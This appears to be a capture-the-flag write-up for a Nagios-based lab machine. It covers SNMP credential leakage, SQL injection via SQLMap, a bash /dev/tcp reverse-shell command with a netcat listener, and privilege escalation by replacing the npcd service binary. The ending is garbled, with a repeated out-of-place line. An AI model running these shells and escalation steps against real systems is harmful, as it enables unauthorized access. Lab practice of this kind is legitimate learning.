


Information Gathering
let’s start nmap to see open ports and services running.
nmap -sC -sV -A 10.10.11.248
We see port 80 is running http service. So, let’s visit the site.
We are directed to a login page.
Well we still don’t have a lot of information to proceed further. So, let’s do a
udp scan this may take around 15min (depends on your machine).
sudo nmap -sU -sV -sC 10.10.11.248
We begin by observing the SNMP service, and subsequently, we proceed to
explain its functionality. We utilize SNMP version 2c along with the
community string “public” to initiate communication with the device. This
enables us to retrieve information regarding various variables present on the device.
Let’s use snmpwalk
snmpwalk -v2c -c public nagios.monitored.htb
Observe this username and password. It’s interesting, let’s try this as the
credentials to the website.
We can not log in with this but it leads us to this page.
We’re now employing SQLMap to exploit a known vulnerability (CVE) that
involves a Post-Authentication SQL Injection.
Here, we will use the username and password obtained in the last
step. This action is part of our strategy to add a new user with administrative privileges.
Try to log in with the username and password we just created. That is,
uname: myadmin psswd: myadmin.
We are in. After exploring the site i came across core config manager
{Navigation -> Configuration -> core configuration manager}. Interestingly,
this feature allows us to add and run a command. Hence, let’s first add a
command in the command section to get the reverse shell.
bash -c 'bash -i >&/dev/tcp/your_ip/port 0>&1'
Apply the changes and navigate to services to execute the command. But
before that start a listener on the port u just mentioned in the command.
nc -lvnp port
Let’s do the execution part.
In the services section click on add new and select the just added command
from check command list and click on Run Check Command.
Click on Run Check Command again.
The page will look like this. Means we have got something on our listener. Let’s check that.
We got the reverse shell.
Explore the shell and find the user flag.
Now that we have the user flag. Let’s move to the privilege escalation part.
I immediately uploaded LinEnum.sh.
To do so, first download the raw code and save it in any directory on your
machine. Then, run a python http server in that directory.
pyhton3 -m http.server 9990
Now, on the remote machine we can download the LinEnum.sh file with the following command.
wget http://your_ip:port/LinEnum.sh
let’s give executable permissions to LinEnum.sh.
chmod +wx LinEnum.sh
To run LinEnum enter the command.
./LinEnum.sh
Well we found some interesting stuff. The files with .sh extensions are
running shell scripts. So let’s explore them.

manage_services.sh looks interesting. Check it out by using the following command.
Details to exploit the npcd service by replacing its executable file
`/usr/local/nagios/bin/npcd` with a bash script that establishes a
reverse shell to the attacker’s machine;
1. Understanding the Environment
2. Exploiting the Service
3. Creating the Malicious Script
Do not forget to keep a listener running on the port you mentioned in npcd
file before you restart the npcd service.
By following these steps, we effectively replace the npcd service’s executable
file with a malicious script that establishes a reverse shell connection to our
machine, providing us with unauthorized access to the remote system.
The root access is now obtained.
The root flag is in the root directory. Simply enter the following command.
 That’s it, we got the admin api key. Now let’s add a new user.
That’s it, we got the admin api key. Now let’s add a new user.